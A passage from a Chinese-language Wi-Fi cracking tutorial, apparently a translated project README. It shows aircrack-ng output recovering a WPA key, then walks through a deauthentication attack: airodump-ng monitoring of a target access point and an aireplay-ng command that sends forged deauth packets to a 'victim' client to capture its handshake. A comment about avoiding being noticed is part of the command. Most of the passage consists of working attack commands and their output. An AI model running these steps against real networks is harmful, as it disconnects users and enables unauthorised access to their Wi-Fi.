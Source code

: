 如果密码被破解了，你将会在终端看到一个 `KEY FOUND!` 消息，后面跟着的文本就是网络密码。

```
                                 Aircrack-ng 1.2 beta3


                   [00:01:49] 111040 keys tested (1017.96 k/s)


                         KEY FOUND! [ hacktheplanet ]


      Master Key     : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89 
                       59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E 

      Transient Key  : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71 
                       2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73 
                       6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78 
                       8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21 

      EAPOL HMAC     : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4 
```

## Deauth Attack

Deauth 攻击会将伪造的身份验证数据包从您的计算机发送到连接到您尝试破解的网络的客户端。 这些数据包包括伪造的 “发件人” 地址，使得它们像客户端那样从接入点本身发送出去。 收到这样的数据包后，大多数客户端断开与网络的连接，并立即重新连接，如果您正在使用`airodump-ng`进行侦听，就能捕获到 4-way handshake。

使用 `airodump-ng` 监视特定接入点（使用 `-c channel --bssid MAC`），直到看到客户端（`STATION`）连接。 连接的客户端看起来像这样，`64：BC：0C：48：97：F7` 是客户端 MAC。

```
 CH  6 ][ Elapsed: 2 mins ][ 2017-07-23 19:15 ]                                         
                                                                                                                                           
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                           
 9C:5C:8E:C9:AB:C0  -19  75     1043      144   10   6  54e  WPA2 CCMP   PSK  ASUS                                                         
                                                                                                                                           
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                 
                                                                                                                                           
 9C:5C:8E:C9:AB:C0  64:BC:0C:48:97:F7  -37    1e- 1e     4     6479  ASUS
```

现在，先不管这个正在运行的 `airodump-ng` ，打开一个新的终端。 我们用 `aireplay-ng` 命令向我们的受害者客户端发送伪造的解除认证数据包，强制其重新连接到网络，以便在此过程中抓取 handshake。

```bash
# -0 2 指定了我们将发送 2 个解除认证的数据包。如果需要
# 可以增加这个数字，但随之而来客户端网络可能中断，有被人注意到的风险。
# -a 是接入点的 MAC
# -c 是客户端的 MAC
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
```
